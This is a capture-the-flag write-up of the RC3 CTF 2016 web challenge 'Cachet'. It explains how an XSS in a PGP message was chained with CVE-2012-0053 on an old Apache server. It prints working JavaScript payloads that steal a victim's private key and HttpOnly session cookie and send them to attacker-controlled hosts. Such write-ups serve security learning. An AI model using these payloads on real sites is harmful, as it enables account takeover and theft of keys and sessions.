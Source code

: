 #### Cachet, a web challenge from RC3 CTF 2016
---

Cachet was a messaging service where the user can send messages (encrypted on the client) to others. A PIN, verified by the server, is required before you can view an encrypted message. 

The source code for the challenge itself is available at https://drive.google.com/file/d/0B3HqJpgroLZxMHBGU1QtcVc4UUU/view.

tl;dr: XSS the user to get their private key, abuse an old Apache server on another port to get the HttpOnly cookie and thus the encrypted flag.

We quickly found an XSS vulnerability in the PGP message itself. This is only sent to the client after the PIN is confirmed, but this turned out to be irrelevant.

Our first payload attempted to steal the PGP key by hooking `onkeypress`, but the bot did not trigger this, so we instead overwrote the `decryptMessage()` function:
```javascript
function decryptMessage() {
    $.ajax({
      url: "http://xx.xx.xx.xx/recv.php",
      data: {x: $("#privkey").val(), y: $("#msg-subject").val()},
    });
}
```

Having the private key, we now needed the message to decrypt. After retrieving the list of messages from `read.php`, we saw the flag was in message #2 and the PIN was Julian Assange's birthday (as indicated by their subjects). We first tried simply retrieving message #2, but the application checked the `Referer` header to ensure the request was coming from the right page. Since we were coming from a different message, this check was failing. You cannot overwrite the `Referer` header in an AJAX request, and the cookies were marked HttpOnly, so we were temporarily stuck.

Eventually, we discovered a development server running on port 8080. While this was a non-functional version of the application, it was running an old version of Apache. It also had an `Access-Control-Allow-Origin` header set to the original site, allowing us to make AJAX requests (with cookies!) to it. This particular version of Apache was vulnerable to CVE-2012-0053, a vulnerability that will echo back sent cookies if you exceed Apache's header size limit. This allowed us to compromise the session cookie, which is marked HttpOnly, for the user using a modified exploit:
```javascript
function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+";path=/";
        }
        document.cookie = cookie;
    }
}
 
function makeRequest() {
    setCookies();
 
    function parseCookies () {
        var cookie_dict = {};
        // Only react on 400 status
        if (xhr.readyState === 4 && xhr.status === 400) {
            // Replace newlines and match <pre> content
            var content = xhr.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);
            if (content.length) {
                // Remove Cookie: prefix
                content = content[1].replace("Cookie: ", "");
                var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);
                // Add cookies to object
                for (var i=0; i<cookies.length; i++) {
                    var s_c = cookies[i].split('=',2);
                    cookie_dict[s_c[0]] = s_c[1];
                }
            }
            // Unset malicious cookies
            setCookies(true);
            $.ajax({
              data: {c: JSON.stringify(cookie_dict)},
              url: "http://ec2-xx-xx-xx-xx.compute-1.amazonaws.com/c.php",
            });
        }
    }
    // Make XHR request
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = parseCookies;
    xhr.open("GET", "http://54.172.225.153:8000", true);
    xhr.withCredentials = true;
    xhr.send(null);
}
 
makeRequest();
```

This sent us the cookie for the user, allowing us to read the message (which contained the flag) and decrypt it with the previously stolen key.
